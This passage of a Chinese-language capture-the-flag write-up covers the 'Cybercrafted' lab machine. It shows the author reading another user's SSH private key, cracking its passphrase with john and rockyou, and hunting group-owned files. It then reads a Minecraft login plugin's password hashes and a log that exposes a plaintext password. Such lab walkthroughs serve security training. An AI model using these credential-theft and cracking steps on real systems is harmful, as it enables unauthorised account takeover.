 我发现对于 xxultimatecreeperxx 用户我们可以读取其 ssh 的私钥

```bash
(remote) www-data@cybercrafted:/home/xxultimatecreeperxx/.ssh$ ls -al
total 16
drwxrwxr-x 2 xxultimatecreeperxx xxultimatecreeperxx 4096 Jun 27  2021 .
drwxr-xr-x 5 xxultimatecreeperxx xxultimatecreeperxx 4096 Oct 15  2021 ..
-rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx  414 Jun 27  2021 authorized_keys
-rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx 1766 Jun 27  2021 id_rsa
```

经过验证存在密码, 所以我使用 john 进行了密码的破解

```bash
root@ip-10-10-157-48:~/cybercrafted# john hash.txt --wordlist=`locate rockyou.txt`
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)
1g 0:00:00:22 DONE (2023-09-22 02:19) 0.04415g/s 633187p/s 633187c/s 633187C/s *7¡Vamos!
Session completed.
```

然后进行登陆即可

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132116-3.png)

### xxultimatecreeperxx —> cybercrafted

我发现用户是属于一个组的, 所以我直接查找属于这个组的文件

```bash
xxultimatecreeperxx@cybercrafted:~$ find / -group 25565 2>/dev/null
/opt/minecraft
/opt/minecraft/note.txt
........
/opt/minecraft/cybercrafted/plugins
/opt/minecraft/cybercrafted/plugins/LoginSystem_v.2.4.jar
/opt/minecraft/cybercrafted/plugins/LoginSystem
/opt/minecraft/cybercrafted/plugins/LoginSystem/settings.yml
/opt/minecraft/cybercrafted/plugins/LoginSystem/passwords.yml
/opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt
/opt/minecraft/cybercrafted/plugins/LoginSystem/language.yml
```

查看这个 note.txt 文件我知道了提供了一个 Minecraft 插件, 并且我们可以从上面的输出中看到这个插件并且其名称为 login 所以应该和登陆有关我们进行查看

```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat passwords.yml 
cybercrafted: dcbf543ee264e2d3a32c967d663e979e
madrinch: 42f749ade7f9e195bf475f37a44cafcb
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat log.txt 

[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:25:16] cybercrafted registered. PW: JavaEdition>Bedrock
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:47:34] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:54] cybercrafted logged in. PW: JavaEdition>Bedrock
```

[01:42:52 INFO]: Plugins (1): LoginSystem
[01:43:08 INFO]: Plugins (2): **BukkitTTY**, LoginSystem